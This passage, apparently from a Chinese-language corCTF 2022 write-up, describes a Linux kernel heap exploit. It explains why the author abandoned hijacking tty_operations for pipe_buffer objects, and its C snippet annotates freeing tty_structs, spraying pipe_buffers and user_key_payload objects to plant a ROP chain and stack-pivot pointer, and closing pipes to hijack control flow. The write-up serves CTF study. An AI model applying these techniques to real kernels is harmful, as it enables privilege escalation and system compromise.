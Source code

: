 ![6-free-kmalloc-32](/images/posts/corCTF-2022/6-free-kmalloc-32.png)

**劫持控制流**：之前作者想通过释放 `tty_struct` 并篡改  [tty_operations](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/tty_driver.h#L246) 来劫持RIP，但是检查太多了，所以转向 [pipe_buffer](https://elixir.bootlin.com/linux/v5.10.127/source/include/linux/pipe_fs_i.h#L26) 对象。

```c
    [...]
    
    for (int i = 0; i < 72; i++)
        free_tty(i); 			// [1] 继续释放 tty_struct

    sleep(1); // GC TTYs

    for (int i = 0; i < 1024; i++)
        alloc_pipe_buff(i); 	// [2] 喷射 pipe_buffer, 替换 tty_struct。等待超时, 通过某个伪造的 poll_list->next 释放某个 pipe_buffer

    [...]
    
    free_all_keys(false); 		// 释放所有 user_key_payload

    for (int i = 0; i < 31; i++)
        keys[i] = alloc_key(n_keys++, buff, 600); // [3] 用 kmalloc-1024 user_key_payload 堆喷篡改某个被释放的 pipe_buffer, 布置ROP chain, 篡改 anon_pipe_buf_ops 指针指向 stack pivot gadget

    for (int i = 0; i < 1024; i++)
        release_pipe_buff(i); 	// [4] 关闭 pipe, 触发 pipe_release(), 劫持控制流

    [...]
```

